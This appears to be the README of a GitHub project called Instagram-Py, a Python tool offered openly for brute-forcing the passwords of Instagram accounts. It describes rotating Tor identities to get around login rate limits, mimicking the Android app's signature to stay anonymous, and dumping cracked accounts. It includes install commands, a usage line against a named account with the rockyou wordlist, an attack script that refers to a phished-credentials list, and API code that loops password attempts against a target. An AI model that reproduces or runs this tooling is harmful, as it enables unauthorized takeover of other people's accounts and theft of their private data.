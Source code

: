 .. image:: https://raw.githubusercontent.com/antony-jr/instagram-py/master/.img/poster.png



.. raw:: html
 
 <blockquote>:briefcase: The Official Instagram-Py repo. A professional tool to :8ball: brute force instagram :camera_flash: accounts with less resource :gift: as possible , Written in Python :snake: and made with :heart: -- Antony Jr.</blockquote>
    
 
 <h1 align="center" > Instagram-Py </h1>

 <p align=center>
 <a href="https://travis-ci.org/antony-jr/instagram-py">
 <img src="https://travis-ci.org/antony-jr/instagram-py.svg?branch=master" / >
 </a>

 <a href="https://github.com/antony-jr/instagram-py/issues">
 <img src="https://img.shields.io/github/issues/antony-jr/instagram-py.svg?style=flat-square" / >
 </a>
 
 <a href="https://github.com/antony-jr/instagram-py/network">
 <img src="https://img.shields.io/github/forks/antony-jr/instagram-py.svg?style=flat-square" / >
 </a>
 
 <a href="https://github.com/antony-jr/instagram-py/stargazers">
 <img src="https://img.shields.io/github/stars/antony-jr/instagram-py.svg?style=flat-square" / >
 </a>
 
 <a href="https://github.com/antony-jr/instagram-py/blob/master/LICENSE">
 <img src="https://img.shields.io/github/license/antony-jr/instagram-py.svg?style=flat-square" / >
 </a>
 
 <a class="badge-align" href="https://www.codacy.com/app/antony-jr/instagram-py?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=antony-jr/instagram-py&amp;utm_campaign=Badge_Grade"><img src="https://api.codacy.com/project/badge/Grade/352d5096b26e46faaa6b7434ad5afed6"/></a>
 
 </p>

  
  
| This project was started as a **POC** and then evolved into something. I first started this project when a lot of people
| started asking about brute forcing instagram and so I started working on a **Proof-Of-Concept** for brute forcing instagram
| without any password (try) limiting. Another reason to start working on this project was that there was no good tool to do
| this job , Yep! even now if you search through github you cannot find a tool which is good as instagram-py. Since a few people
| liked this tool , I decided to give it a **LTS**. Still there exists some old versions of instagram-py all-over github but
| **this is the official repo**. You can also use **different versions** of **instagram-py** through **pip**. 


.. raw:: html

 <br>
 <p align=center>
 <table>
 <tr>
 <th>DOWNLOAD</th>
 <th>INSTALL</th>
 </tr>
 <tr>
 <td>
 <a href="https://github.com/antony-jr/instagram-py/releases/download/continuous/Instagram-Py-continuous-x86_64.AppImage">
 <img src="https://img.shields.io/badge/LINUX_DOWNLOAD-InSTAGRAM--PY%20PORTABLE%20x86__64-brightgreen.svg?style=for-the-badge" />
 </a>
 </td>
 <td>
 <pre>
 $ chmod +x Instagram-Py-continuous-x86_64.AppImage;
 $ ./Instagram-Py-continuous-x86_64.AppImage # Just Use!
 </pre>
 </td>
 </tr>
 </table>
 <br>
 <img src="https://raw.githubusercontent.com/antony-jr/instagram-py/master/.img/preview.gif" / >
 </p>



------
 How?
------

| We use , **tor** to change our ip once blocked for many tries and continue attack.
| Since the official api is not a hacker wants, So we use the **InstagramAPK signature** to stay **anonymous!**
| And we also **save** the **progress** so that even in network interruption we can avoid breaking the computer!


-------
 What?
-------

| **Instagram-Py** is a slick python script to perform  **brute force** attack against **Instagram** ,   
| this script can **bypass** login limiting on wrong passwords ,  so basically it can test **infinite number of passwords**.
| Instagram-Py is **proved** and can test **over 6M** passwords on a single instagram account with **less resource** as possible
| This script mimics the activities of the official **instagram android app** and sends request over **tor** so you are secure ,
| but if your **tor** installation is **misconfigured** then the blame is on you.


------------
 Features
------------

* Ultra Portable

  As of Instagram-Py v2.0.6 , Instagram-Py is also distributed in **AppImages** , If you use
  Instagram-Py bundled in a AppImage , **You do not need to install anything , even tor.**
  Just **download** , **mark it executable** and **enjoy**! 
  Now Instagram-Py is the only (*The best of my knowledge*) hacking tool which is ultra portable that you
  can carry in a thumb drive. ( And use it in **any Linux Distro without installing anything**).
  know more in the installation section.

* Instagram-Py Scripting

  Craft your own python script which will embed into Instagram-Py for Maximum Customization of your
  brute force attack , example: What if you want a message sent to your phone when an account is hacked?

* Resumes Attacks when the same wordlist is used on the same Username
* Dumps successfully cracked accounts.
* Maximum Customization! ( This includes multiple attack vectors! )
* Fast and Clean Code , no ugly selenum drivers! ( Pure Requests )
* Elegant Tor Identity Change with Stem ( Tor's Official Library for Python )


**Depends on**: python3 , tor ,  requests , requests[socks] , stem (*Don't need anything if you use Instagram-Py Portable*)

==============
 Installation
==============

------------------------------------------------------------
Get Instagram-Py with Zero Setup ( Instagram-Py Portable )
------------------------------------------------------------


Just **execute** this **single command** and you will have everything to start using
**Instagram-Py** right-away!
**This Method is only possible for Linux Distro's with 64Bit Architecture** (*Any Linux Distro which is 64 Bit*).
**If you use this method...**

* You **don't** need to install anything in your **linux distro**.
* You **don't** even need **python** and **tor server** installed.
* You **don't** need any type of **configuration**. (*It Just Works!*)


::

 $ sudo wget -O /usr/bin/instagram-py https://git.io/vxKaq; sudo chmod +x /usr/bin/instagram-py
 $ instagram-py # Installed , Easy right ?



**Caution**: Please don't mix up this installation and pip installation as it may give unexpected
output.

You can also download **instagram-py** directly from the release page and save it in a thumb drive
to use it later, Cool right ?


---------------------------------
 Upgrading Instagram-Py with pip
---------------------------------

::

 $ sudo pip3 install instagram-py --upgrade


-------------------------------
 using pip to get Instagram-py
-------------------------------

**Make sure you have got the latest version of pip(>= 9.0 and python(>= 3.6)**

::

 $ sudo easy_install3 -U pip # you have to install python3-setuptools , update pip
 $ sudo pip3 install requests --upgrade
 $ sudo pip3 install requests[socks]
 $ sudo pip3 install stem
 $ sudo pip3 install instagram-py
 $ instagram-py # installed successfully
 $ # Configuration is Super Important so Lets Create One
 $ instagram-py --create-configuration # follow the steps... 

--------------------------------
    Configuring Instagram-Py
--------------------------------

**As of v2.0.0 Configuration is Simply done by Passing an Argument to Instagram-Py**

::

 $ instagram-py --create-configuration
 $      # OR
 $ instagram-py -cc



**Or if you just want the default settings without the annoying questions then**

::

 $ instagram-py --create-configuration --default-configuration
 $      # OR
 $ instagram-py -cc -dc



--------------------------------------------------
    Configuring Tor server to open control port
--------------------------------------------------

open your **tor configuration** file usually located at **/etc/tor/torrc**


::
 
 $ sudo vim /etc/tor/torrc # open it with your text editor
 

**search** for the file for this **specific section**

::

 ## The port on which Tor will listen for local connections from Tor
 ## controller applications, as documented in control-spec.txt.
 #ControlPort 9051
 
**uncomment** 'ControlPort' by deleting the **#** before 'ControlPort' , **now save the file and restart your tor server**

**now you are ready to crack any instagram account , make sure your tor configuration matched ~/instapy-config.json** 

=============
    Usage
=============

**Finally** , now you can use instagram-py!

**Instagram-Py Scripting lets you run Custom Python Scripts Inside Instagram-Py!**

**Never Run Instagram-Py with Multiple Instance! , Use Instagram-Py Scripting Instead!**


::

 $ instagram-py -u your_account_username -pl path_to_password_list


**Note**: Without the **-c** optional argument , instagram-py **will not continue the attack**

::

 usage: instagram-py [-h] [--username USERNAME] [--password-list PASSWORD_LIST]
                     [--script SCRIPT] [--inspect-username INSPECT_USERNAME]
                     [--create-configuration] [--default-configuration]
                     [--countinue] [--verbose]
 
 optional arguments:
   -h, --help            show this help message and exit
   --username USERNAME, -u USERNAME
                         username for Instagram account
   --password-list PASSWORD_LIST, -pl PASSWORD_LIST
                         password list file to try with the given username.
   --script SCRIPT, -s SCRIPT
                         Instagram-Py Attack Script.
   --inspect-username INSPECT_USERNAME, -i INSPECT_USERNAME
                         Username to inspect in the instagram-py dump.
   --create-configuration, -cc
                         Create a Configuration file for Instagram-Py with
                         ease.
   --default-configuration, -dc
                         noconfirm for Instagram-Py Configuration Creator!
   --continue-attack, -c       Continue the previous attack if found.
   --verbose, -v         Activate Verbose mode. ( Verbose level )

 example: instagram-py -c -vvv -u instatestgod__ -pl rockyou.txt

 Report bug, suggestions and new features at https://github.com/antony-jr/instagram-py



========================
 Instagram-Py Scripting
========================

Instagram-Py now lets you run your custom scripts inside of it for maximum customization of your attacks.
This Scripts are simple Python Scripts ( You Can just do anything that is possible with python )

**Witness the power of Instagram-Py Scripting**

::

 #!/usr/bin/instagram-py -s
 # Only Supports Python 3

 import os

 def hacked_an_account(username , password):
    # Use Twilio API to Make a Message to our phone MayBe?
    print("Account Cracked!")
    return True


 print("Initiating Multi Username Attack Script...")

 global_callback = hacked_an_account
 global_password_list = "{}/.exploits/facebook-phished.txt".format(os.path.expanduser('~'))

 usernames = [ # Reserved Variable
   {
   "id" : "instatestgod__",
   "password_list" : "/home/antonyjr/Developer/.exploits/rockyou.txt" , # full path
   "continue" : True, # Optional
   "verbose" : 0 # Optional
    },
   # If you want to simultaniously attack the same account with different wordlist
   # Apparently Saving does not work here if two wordlist are used on a single user!
   # could be later fixed anyways...
   {
   "id" : "instatestgod__",
   # global password list will cover us if password list is not mentioned!
   "continue" : False, # Optional
   "verbose" : 3 # Optional
   }
   # ,
   # {
   # "id" : "even_more_users",
   # "password_list" : "different_passwords.lst",
   # }
 ]



**You Can Always View the Cracked Passwords Using this command!**

::

 $ instagram-py -i instatestgod__
 $ # Displays record if it is cracked in the past!

===========================
 Using Instagram-Py as API
===========================

**Instagram-Py supports to be used as a module as of v1.3.2 , so you don't want to reproduce my code. Just use it!**

For some reason you wish not to use my software then you can use my software as a module and embed into your own
software , anyway its native so its just gonna run the same as the official command-line tool unless you do something crazy.

**Follow the same installation method mentioned above to install Instagram-Py API.**

This is a simple script to conduct a bructe force attack using instagram-py as a API.

::

 #!/usr/bin/env python3
 '''
   This is the same thing that is in the __init__ file of the command-line
   tool.
 '''
 from InstagramPy.InstagramPyCLI import InstagramPyCLI
 from InstagramPy.InstagramPySession import InstagramPySession , DEFAULT_PATH
 from InstagramPy.InstagramPyInstance import InstagramPyInstance
 from datetime import datetime
 
 username = "TARGET ACCOUNT USERNAME"
 password = "PASSWORD LIST PATH"

 appInfo = {
    "version"     : "0.0.1",
    "name"        : "Instagram-Py Clone",
    "description" : "Some Module to crack instagram!",
    "author"      : "YourName",
    "company"     : "YourCompany",
    "year"        : "2017",
    "example"     : ""
 }

 cli = InstagramPyCLI(appinfo = appInfo , started = datetime.now() , verbose_level = 3)
 
 '''
 # USE THIS IF YOU WANT
 cli.PrintHeader()
 cli.PrintDatetime()
 '''
 session = InstagramPySession(username , password , DEFAULT_PATH , DEFAULT_PATH , cli)
 session.ReadSaveFile(True) # True to countinue attack if found save file.
 '''
 # USE THIS IF YOU WANT
 cli.PrintMagicCookie(session.magic_cookie)
 '''

 '''
  Defining @param cli = None will make Instagram-Py run silently so you
  can you use your own interface if you like.
  or if you want to use the official interface then declare like this

  instagrampy = InstagramPyInstance(cli = cli , session = session)

 '''

 instagrampy = InstagramPyInstance(cli = None ,session = session)
 while not instagrampy.PasswordFound():
        print('Trying... '+session.CurrentPassword())
        instagrampy.TryPassword()

 if instagrampy.PasswordFound():
        print('Password Found: '+session.CurrentPassword())

 exit(0) 
 


=========
Support
=========

If you think that this project is **cool** then you can give it a :star: or :fork_and_knife: it if you want to improve it with me. I really :heart: stars though!   

.. raw:: html

 <p align="center">
     <a href="https://liberapay.com/antonyjr/donate">
        <img src="https://liberapay.com/assets/widgets/donate.svg">
     </a>
 </p>


If you want to do something that stands out then you can click the **donate** button at the top to make a monthly donation , So   
I will make sure that I stay healthy and keep on to do my work. :briefcase: Supporting me means supporting all of my projects , So   
you are like **Tony Stark** :heart: who backs **Spider-Man**! Thank you for your extra care! :dog:   

You can also tweet about me on twitter , get connected with me here -> https://twitter.com/antonyjr0

Thank You! :smiley_cat:



=============
   License
=============

The MIT License,

Copyright (C) 2018 The Future Shell , Antony Jr.
